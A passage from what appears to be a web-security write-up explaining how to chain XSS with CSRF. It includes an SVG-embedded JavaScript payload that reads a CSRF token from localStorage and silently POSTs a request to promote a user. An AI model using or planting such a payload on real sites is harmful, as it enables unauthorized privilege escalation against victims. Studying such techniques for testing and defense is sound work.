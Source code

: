 <figure><img src="/assets/postImg/pid4/10.png" alt=""><figcaption></figcaption></figure>

> So, what's the game plan here? Steal the CSRF token, whip up a proof-of-concept (PoC), and send it off to the victim, right? Big nope. This approach takes time and by the time the victim uses your PoC, that token could already be long expired.

A better approach is to use XSS to inject malicious JavaScript that reads the CSRF token directly from local storage and sends the request automatically.

```svg
  <script>
    (() => {
      const var_csrfToken = localStorage.getItem('csrfToken');
      fetch('/promote-user', {
        method: 'POST',
        headers: {
          'Content-Type': 'application/x-www-form-urlencoded',
          'X-CSRF-Token': var_csrfToken
        },
        body: 'user_id=2'
      });
    })();
  </script>
  <rect width="100" height="100" fill="#f00" opacity="0.1"/>
</svg>
```
